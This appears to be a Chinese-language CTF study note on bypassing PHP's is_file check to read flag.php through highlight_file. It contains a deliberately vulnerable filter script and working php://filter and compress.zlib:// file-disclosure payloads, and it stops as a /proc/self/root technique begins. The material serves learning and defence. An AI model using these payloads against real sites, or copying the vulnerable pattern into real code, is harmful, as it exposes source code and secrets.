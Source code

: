 

## is_file

### php伪协议绕过is_file+highlight_file

从一道ctf题目学习

```php
function filter($file){
    if(preg_match('/\.\.\/|http|https|data|input|rot13|base64|string/i',$file)){
        die("hacker!");
    }else{
        return $file;
    }
}
$file=$_GET['file'];
if(! is_file($file)){
    highlight_file(filter($file));
}else{
    echo "hacker!";
}
```

函数介绍：

```php
is_file — 判断给定文件名是否为一个正常的文件
is_file ( string $filename ) : bool
```

部分payload：

```php
可以直接用不带任何过滤器的filter伪协议
payload:file=php://filter/resource=flag.php
也可以用一些没有过滤掉的编码方式和转换方式
payload:file=php://filter/read=convert.quoted-printable-encode/resource=flag.php
file=compress.zlib://flag.php
payload:file=php://filter/read=convert.iconv.utf-8.utf-16le/resource=flag.php
```

[PHP支持的字符编码](https://www.php.net/manual/zh/mbstring.supported-encodings.php)

如果还过滤了`filter`协议怎么办呢，看下一个

### 多次重复/proc/self/root绕过is_file

```php
function filter($file){
    if(preg_match('/\.\.\/|http|filter|https|data|input|rot13|base64|string/i',$file)){
        die("hacker!");
    }else{
        return $file;
    }
}
$file=$_GET['file'];
if(! is_file($file)){
    highlight_file(filter($file));
}else{
    echo "hacker!";
}
```
